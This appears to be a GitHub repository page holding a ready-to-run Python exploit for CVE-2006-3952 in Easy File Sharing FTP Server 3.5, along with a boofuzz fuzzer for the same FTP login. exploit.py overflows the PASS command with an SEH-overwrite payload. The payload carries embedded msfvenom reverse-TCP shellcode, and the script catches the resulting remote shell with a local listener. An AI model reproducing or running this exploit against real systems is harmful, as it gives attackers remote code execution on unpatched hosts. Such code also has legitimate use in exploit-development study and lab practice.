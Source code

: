 INFO
----

    # CVE-2006-3952
    Exploit for Easy File Sharing FTP Server 3.5 on Win7 32


    Based on:
    * pwntools
    * msfvenom / reverse_tcp payload

    Vulnerable app available at https://www.exploit-db.com/apps/0efddb6d04f4125d7c1f104c6b1c60a0-efsfs.exe

    Simple SEH overrite + couple jumps back, due to stack being corrupted after SEH value.

exploit.py
----------

    #!/usr/bin/env python3
    #
    # Exploit for Easy File Sharing FTP Server 3.5 (CVE-2006-3952)
    # * pwntools
    # * metasploit reverse_tcp payload
    # * Ropper

    import sys
    import pwn
    from threading import Thread


    # set target info
    RHOST = '127.0.0.1'
    RPORT = 21
    LPORT = 4444


    def generate_payload():
        NOP = pwn.asm("nop")  # noqa: F841
        payload = b""

        # msfvenom -f python -v shellcode -p windows/shell_reverse_tcp LHOST=192.168.0.151 LPORT=4444 EXITFUNC=thread -b "\x00" -e x86/alpha_mixed # noqa: E501
        shellcode = b""
        shellcode += b"\x89\xe3\xdb\xd9\xd9\x73\xf4\x5f\x57\x59\x49\x49"
        shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43"
        shellcode += b"\x43\x43\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30"
        shellcode += b"\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30"
        shellcode += b"\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
        shellcode += b"\x39\x6c\x38\x68\x6b\x32\x45\x50\x43\x30\x73\x30"
        shellcode += b"\x73\x50\x4c\x49\x6b\x55\x36\x51\x6f\x30\x71\x74"
        shellcode += b"\x6e\x6b\x50\x50\x54\x70\x4e\x6b\x46\x32\x64\x4c"
        shellcode += b"\x6e\x6b\x42\x72\x62\x34\x4e\x6b\x63\x42\x55\x78"
        shellcode += b"\x36\x6f\x4f\x47\x32\x6a\x54\x66\x66\x51\x59\x6f"
        shellcode += b"\x6e\x4c\x55\x6c\x65\x31\x53\x4c\x63\x32\x56\x4c"
        shellcode += b"\x71\x30\x7a\x61\x78\x4f\x64\x4d\x77\x71\x4b\x77"
        shellcode += b"\x7a\x42\x5a\x52\x66\x32\x31\x47\x4e\x6b\x52\x72"
        shellcode += b"\x54\x50\x6e\x6b\x52\x6a\x57\x4c\x6c\x4b\x30\x4c"
        shellcode += b"\x77\x61\x53\x48\x58\x63\x53\x78\x63\x31\x4b\x61"
        shellcode += b"\x30\x51\x6c\x4b\x62\x79\x51\x30\x65\x51\x69\x43"
        shellcode += b"\x4c\x4b\x72\x69\x44\x58\x49\x73\x76\x5a\x53\x79"
        shellcode += b"\x6e\x6b\x55\x64\x6e\x6b\x47\x71\x38\x56\x74\x71"
        shellcode += b"\x6b\x4f\x6c\x6c\x6a\x61\x68\x4f\x66\x6d\x55\x51"
        shellcode += b"\x4a\x67\x74\x78\x6b\x50\x34\x35\x39\x66\x37\x73"
        shellcode += b"\x31\x6d\x78\x78\x57\x4b\x71\x6d\x47\x54\x54\x35"
        shellcode += b"\x69\x74\x50\x58\x4c\x4b\x31\x48\x67\x54\x65\x51"
        shellcode += b"\x38\x53\x62\x46\x6c\x4b\x36\x6c\x52\x6b\x6c\x4b"
        shellcode += b"\x63\x68\x57\x6c\x75\x51\x69\x43\x6e\x6b\x74\x44"
        shellcode += b"\x4c\x4b\x43\x31\x4a\x70\x4f\x79\x47\x34\x51\x34"
        shellcode += b"\x61\x34\x33\x6b\x63\x6b\x45\x31\x63\x69\x51\x4a"
        shellcode += b"\x36\x31\x79\x6f\x79\x70\x43\x6f\x71\x4f\x30\x5a"
        shellcode += b"\x4c\x4b\x67\x62\x78\x6b\x6e\x6d\x71\x4d\x71\x78"
        shellcode += b"\x57\x43\x47\x42\x37\x70\x73\x30\x33\x58\x30\x77"
        shellcode += b"\x74\x33\x64\x72\x61\x4f\x73\x64\x31\x78\x52\x6c"
        shellcode += b"\x54\x37\x51\x36\x36\x67\x39\x6f\x4a\x75\x6f\x48"
        shellcode += b"\x4c\x50\x77\x71\x73\x30\x63\x30\x66\x49\x49\x54"
        shellcode += b"\x62\x74\x50\x50\x61\x78\x67\x59\x6d\x50\x62\x4b"
        shellcode += b"\x73\x30\x39\x6f\x68\x55\x50\x50\x76\x30\x72\x70"
        shellcode += b"\x46\x30\x63\x70\x30\x50\x31\x50\x52\x70\x31\x78"
        shellcode += b"\x58\x6a\x44\x4f\x39\x4f\x79\x70\x69\x6f\x5a\x75"
        shellcode += b"\x6a\x37\x50\x6a\x44\x45\x35\x38\x4f\x30\x59\x38"
        shellcode += b"\x53\x30\x6e\x77\x33\x58\x63\x32\x35\x50\x36\x71"
        shellcode += b"\x33\x6c\x6d\x59\x69\x76\x70\x6a\x56\x70\x36\x36"
        shellcode += b"\x61\x47\x61\x78\x4c\x59\x69\x35\x34\x34\x30\x61"
        shellcode += b"\x69\x6f\x7a\x75\x6f\x75\x6b\x70\x34\x34\x64\x4c"
        shellcode += b"\x69\x6f\x50\x4e\x57\x78\x72\x55\x38\x6c\x71\x78"
        shellcode += b"\x38\x70\x6e\x55\x6e\x42\x36\x36\x39\x6f\x6e\x35"
        shellcode += b"\x51\x78\x55\x33\x70\x6d\x50\x64\x45\x50\x6c\x49"
        shellcode += b"\x48\x63\x61\x47\x62\x77\x50\x57\x46\x51\x39\x66"
        shellcode += b"\x53\x5a\x55\x42\x63\x69\x71\x46\x59\x72\x69\x6d"
        shellcode += b"\x61\x76\x39\x57\x47\x34\x35\x74\x67\x4c\x36\x61"
        shellcode += b"\x43\x31\x6c\x4d\x47\x34\x64\x64\x66\x70\x69\x56"
        shellcode += b"\x77\x70\x57\x34\x73\x64\x62\x70\x32\x76\x62\x76"
        shellcode += b"\x52\x76\x33\x76\x56\x36\x42\x6e\x30\x56\x42\x76"
        shellcode += b"\x63\x63\x43\x66\x55\x38\x70\x79\x68\x4c\x55\x6f"
        shellcode += b"\x4b\x36\x59\x6f\x78\x55\x6d\x59\x4d\x30\x32\x6e"
        shellcode += b"\x61\x46\x62\x66\x69\x6f\x66\x50\x72\x48\x67\x78"
        shellcode += b"\x4b\x37\x37\x6d\x63\x50\x39\x6f\x6b\x65\x4f\x4b"
        shellcode += b"\x6b\x50\x37\x6d\x36\x4a\x74\x4a\x75\x38\x4e\x46"
        shellcode += b"\x6a\x35\x6d\x6d\x6d\x4d\x6b\x4f\x38\x55\x37\x4c"
        shellcode += b"\x46\x66\x33\x4c\x65\x5a\x6d\x50\x4b\x4b\x69\x70"
        shellcode += b"\x54\x35\x45\x55\x4d\x6b\x31\x57\x75\x43\x74\x32"
        shellcode += b"\x30\x6f\x61\x7a\x33\x30\x52\x73\x39\x6f\x39\x45"
        shellcode += b"\x41\x41"

        payload += b"," * 900  # required to trigger an exception
        payload += NOP * 560
        payload += shellcode  # stage 3
        payload += NOP * (2555 - len(payload))
        payload += pwn.asm("jmp $-1300")  # stage 2, jump even further to stage3
        PPR_GADGET = pwn.p32(0x10012ff2)  # add esp, 8; ret from ssleay32.dll
        payload += pwn.asm("jmp $-5; nop; nop")  # trampoline to jump further backward to stage2
        payload += PPR_GADGET
        payload += NOP * (4000 - len(payload))

        return payload


    def attack():
        r = pwn.remote(RHOST, RPORT, typ="tcp")
        print(r.recv(1024))
        r.send("USER ftptest\r\n")
        print(r.recv(1024))
        p = b"PASS %b\r\n" % generate_payload()
        print(p)
        r.send(p)


    if __name__ == "__main__":
        if len(sys.argv) > 1:
            RHOST = sys.argv[1]

        thread = Thread(target=attack)
        thread.start()

        listener = pwn.listen(port=LPORT)
        listener.wait_for_connection()
        listener.interactive()

        thread.join()

fuzz.py
-------

    #!/usr/bin/env python
    from boofuzz import *
    import sys


    def hello(target, logger, session, *args, **kwargs):
        try:
            banner = target.recv(1000)
        except Exception:
            logger.log_info("Target down. Exiting.")
            sys.exit(-1)

        logger.log_check("Banner received")
        if not banner.startswith("220 Welcome to Easy File Sharing FTP Server!"):
            logger.log_fail("Incorrect banner: {}".format(banner))
            sys.exit(-2)


    def main():
        session = Session(
                target=Target(connection=SocketConnection("192.168.0.101", 21, proto='tcp')),
                )

        s_initialize(name="Command")
        s_static("USER ftptest\r\n")
        s_static("PASS ")
        s_string("1")
        s_static("\r\n")

        session.connect(s_get("Command"), callback=hello)

        session.fuzz()


    if __name__ == "__main__":
        main()